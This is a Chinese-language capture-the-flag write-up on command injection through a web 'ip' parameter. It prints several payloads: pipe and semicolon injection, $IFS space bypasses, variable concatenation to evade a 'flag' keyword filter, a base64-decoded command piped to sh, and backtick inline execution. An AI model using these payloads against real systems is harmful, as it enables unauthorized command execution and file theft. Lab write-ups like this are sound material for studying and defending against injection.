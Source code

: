 # 考察知识点：

# 1.命令行注入

# 2.命令行注入下的绕过



参考文章：

https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/#%E5%91%BD%E4%BB%A4%E5%88%86%E9%9A%94%E4%B8%8E%E6%89%A7%E8%A1%8C%E5%A4%9A%E6%9D%A1%E5%91%BD%E4%BB%A4



https://xz.aliyun.com/t/3918#toc-4



# 1.根据题目和网站确定是命令行注入



# 2.ls列如文件目录

```javascript
/?ip=127.0.0.1|ls
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/79D7D77C565A4792A2E8A3F214907C2Fclipboard.png)

# 3. 读取flag.php内容发现限制了flag和空格。

空格经过多次测试发现只能使用$IFS\绕过空格限制

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/9C1F149AE666491A96CE655D6D8D51E6clipboard.png)

读取到了index.php的内容



# 4.发现对flag做了限制，并且过滤了很多通配符

此时可以采用字符串拼接的方法

构造payload:

```javascript
?ip=127.0.0.1;a=lag;b=f;cat$IFS$b$a.php
```

此时不能用$IFS\只能把后面的\去了才能出flag。玄学

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/6DF433F637F2487594F890E6C3437783clipboard.png)



# 方法二：

# 过滤bash不能用，但是sh没有过滤

```javascript
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```



# 方法三：

# 内联执行：

```javascript
cat$IFS`ls`
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/696642D651114DD8802D8F2833D9345Cclipboard.png)

